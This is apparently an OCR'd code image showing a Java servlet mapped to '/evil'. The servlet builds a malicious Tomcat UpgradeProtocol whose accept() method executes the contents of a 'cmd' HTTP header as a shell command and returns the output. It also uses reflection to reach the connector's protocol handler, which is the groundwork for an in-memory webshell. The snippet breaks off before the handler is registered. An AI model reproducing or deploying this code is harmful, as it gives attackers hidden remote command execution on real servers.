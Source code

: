 ```bash
@WebServlet("/evil")
public class TestUpgrade extends HttpServlet {

    static class MyUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapperBase, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            String p = request.getHeader("cmd");
            try {
                String[] cmd = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                Response resp = (Response) response.get(request);
                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream(), "GBK").useDelimiter("\\A").next().getBytes();
                resp.setCharacterEncoding("GBK");
                resp.doWrite(ByteBuffer.wrap(result));
            } catch (Exception ignored) {}
            return false;
        }
    }
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        try {
            RequestFacade rf = (RequestFacade) req;
            Field requestField = RequestFacade.class.getDeclaredField("request");
            requestField.setAccessible(true);
            Request request1 = (Request) requestField.get(rf);

            Field connector = Request.class.getDeclaredField("connector");
            connector.setAccessible(true);
            Connector realConnector = (Connector) connector.get(request1);

            Field protocolHandlerField = Connector.class.getDeclaredField("protocolHandler");
            protocolHandlerField.setAccessible(true);
            AbstractHttp11Protocol handler = (AbstractHttp11Protocol) protocolHandlerField.get(realConnector);
```